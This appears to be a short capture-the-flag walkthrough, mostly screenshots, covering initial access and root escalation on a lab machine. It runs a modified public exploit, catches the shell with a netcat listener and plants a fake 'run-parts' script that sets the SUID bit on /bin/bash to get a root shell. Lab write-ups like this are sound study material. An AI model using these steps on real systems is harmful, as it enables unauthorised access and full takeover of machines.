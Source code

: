 ![](../attachment/6b09193b77b385991d4c2ab57de6c706.png)
Creating a user:
![](../attachment/ec35905ca16b598d6ec2d30cbc7eddec.png)

Now we can find an exploit:
![](../attachment/201e18daac261249cc30c657f2435354.png)

Now modifying the exploit:
![](../attachment/916957a5cd68e1b928b5e872e0f08aa0.png)

Create a web server:
```
python3 -m uploadserver 21
```
Run it:
```
python3 49383.py
```

Listener:
```
sudo rlwrap nc -nlvp 2222
```
Using penelope instead of nc:
![](../attachment/5be9fdb0bf22b3a28f4cc361d1143cb4.png)
We are chloe.

![](../attachment/fcbb959a19d77e20bb2276d9bc7af693.png)
![](../attachment/abd13ec10e417002ed1356e076470217.png)

Now we can create our own run-parts:
```
cd /usr/local/bin
echo '#!/bin/bash' > run-parts
echo 'chmod +s /bin/bash' >> run-parts
chmod 777 run-parts
```
![](../attachment/b6bf3bd2ebfc3c2f48bf26bc809d9495.png)
Now we get a root shell after running `/bin/bash -p`

